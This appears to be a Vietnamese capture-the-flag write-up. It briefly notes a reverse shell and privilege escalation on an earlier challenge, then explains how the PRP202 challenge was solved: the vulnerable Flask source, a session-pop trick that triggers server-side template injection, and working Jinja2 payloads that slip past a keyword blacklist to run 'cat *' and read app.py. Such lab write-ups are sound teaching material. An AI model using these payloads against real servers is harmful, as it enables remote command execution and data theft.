    

- Vậy là ta đã mở được reverse shell trên server

- Bây giờ chỉ cần tiến hành [leo thang đặc quyền](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd) thôi:

    

- Ta có flag: `"FUSec{a9595511e650bb0ff367d8144818802b}"`

> Cảm ơn anh Khoa và anh T giấu tên (không lừa) đã luôn hỗ trợ, đấm mồm thằng em để em có thể giải được bài này

> Mình cũng xin cảm ơn người bạn đến từ đất cảng Mai Kim Long, mặc dù chỉ quen biết qua mạng xã hội nhưng vẫn dám cho mình mượn tài khoản GCP để làm bài này, thanks bro!

# PRP202

> Một bài hay và cực khó với mình, chả trách người anh T giấu tên cứ bảo làm thử<br>
> 2 ngày để làm, nhiều lần thất bại, nhưng kết quả thật xứng đáng

## Source code and analysis

### Source code
Bắt đầu vào bài, tại trang index, Ctrl U lên thấy [source code](https://github.com/phucdc-noob/FUSec-Write-Ups/blob/main/PRP202.py) Flask của web

```python
app = Flask(__name__, template_folder="template")
SESSION_TYPE = "filesystem"
app.config.from_object(__name__)
Session(app)
authCode = "C4n 1 Trust Y0u? Player "


# Our bot detected that some users had gained access to the system by malicious function, so we decided to ban it.
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]


def authCheck(input):
    if session.get(input) == None:
        return ""
    return session.get(input)


@app.route("/", methods=["GET", "POST"])
def index():
    try:
        session.pop("userCode")
        session.pop("winner")
    except:
        pass
    if request.method == "POST":
        ok = request.form["ok"]
        for ban in blacklist:
            if ban in request.form["name"]:
                return render_template_string("Hacker Alert!!!")
        session["userCode"] = request.form["name"]
        if ok == "Let's play!":
            session["check"] = "access"
            # bypass this? No way haha :D
            winner = "cocailonditconbamay"
            session["winner"] = winner
            return render_template_string(
                "Generating winner hash...<script>setInterval(function(){ window.location='/doanxem'; }, 500);</script>"
            )
    return render_template("index.html")


@app.route("/doanxem", methods=["GET", "POST"])
def doanxem():
    try:
        if authCheck("check") == "":
            return render_template_string(authCode + authCheck("userCode"))
        else:
            if request.method == "POST":
                winner_input = request.form["winner"]
                if winner_input == authCheck("winner"):
                    mess = (
                        "You are the real winner!!!!!!!!!! "
                        + authCheck("userCode")
                        + ", here your flag: https://youtu.be/dQw4w9WgXcQ"
                    )
                elif winner_input != authCheck("winner"):
                    mess = "Wrong! You die!<script>setInterval(function(){ window.location='/choilai'; }, 1200);</script>"
                return render_template_string(mess)
            return render_template("doanxem.html")
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


@app.route("/choilai")
def reset_access():
    try:
        session.pop("check")
        return render_template_string(
            "You got an Extra Change. Gud luck :D!!!!!!<script>setInterval(function(){ window.location='/'; }, 500);</script>"
        )
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


if __name__ == "__main__":
    app.secret_key = "###########"
    serve(app, host="0.0.0.0", port=8900)
```

### Analysis

Có `render_template_string()` nên rất dễ đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection)

Nhưng vì đã bị chặn `request.args` nên chắc phải inject từ một input nào đó :v

Review lại source code thì ta thấy có 2 chỗ `render_template_string()` cần sử dụng `authCheck("userCode")`, chính là cái tên ta nhập ở index

Ở `doanxem()` ta thấy `mess` là một đoạn code chuyển hướng sang `/choilai`

Sang đến `choilai()` thì ta thấy rằng nó sẽ `pop` cái mục `check` của session data, vậy câu hỏi ở đây là, nếu như ta để cho `doanxem` gửi một request sang `/choilai`, nhưng trước khi `/choilai` kịp render, ta drop cái request đó? Tất nhiên cái `session.pop("check")` vẫn được thực thi, nhưng không render. Và nếu ta gửi tiếp một request của `doanxem` vào `/choilai`, điều gì sẽ xảy ra? `session.pop()` sẽ lỗi vì đã pop trước đó, nên giờ không còn gì mà pop, và thay vì render ra chuyển hướng về index, thì đoạn render cuối sẽ được thực thi.

Đã rõ cách để trigger template, thử nhập `{{7*7}}` ở index và làm các bước như trên:


## Exploit

Vậy là đã rõ, bây giờ việc cần làm là tạo ra payload, trước tiên, hãy review cái black list của source code đã:

```python
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]
```

Đoạn này khá là khó, vì black list chứa những kí tự và từ khóa phổ biến để tạo payload SSTI

Suy nghĩ mãi làm thế nào để tạo payload thì người anh TungDLM bảo `chr`, sáng dạ thêm một tí

Cụ thể thì ta sẽ dùng `chr()` để tạo các kí tự trong string và ghép chúng lại, nhưng trước tiên, phải define nó

Thử nhập `().__class__.__base__.__subclasses__()` để list các subclass và mình thấy, tại vị trí 80 có `<class '_frozen_importlib._ModuleLock'>`, có thể sử dụng nó để define `chr`:

```python

```

Đoạn này phải cảm ơn 3 chữ `s e t` của anh TaiDH, một pro đã giải bài này trong 15 phút, trước cả mình

Ok, để đoạn define ở đó, bây giờ đến đoạn payload chính, có rất nhiều hướng làm:

### Sử dụng `cycler`, `__doc__` và `replace` (TungDLM):

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
```

Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

Payload hoàn chỉnh:

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
```

### Sử dụng `__add__` (by me):

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

Payload hoàn chỉnh:

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

## Flag:


Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

> Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

## References:

- [https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b](https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b), WU của anh TungDLM trong giải NightWolf-CTF do SAS tổ chức, trong đó có bài XSMB, cùng SSTI tương tự, tại bài đó, anh Tùng có đính kèm 2 link tham khảo
    
- [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html), đây là bài viết mình tham khảo rất rất nhiều, chi tiết và có thêm 3 đoạn code viết bằng python giúp tìm vị trí các class dễ hơn, một số trick bypass filter, nên tham khảo

- [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection), đây là bài viết của Jame Kettle về SSTI, nếu nhớ không nhầm chính ông này nghiên cứu ra SSTI, nên đọc nếu chưa biết nhiều về SSTI
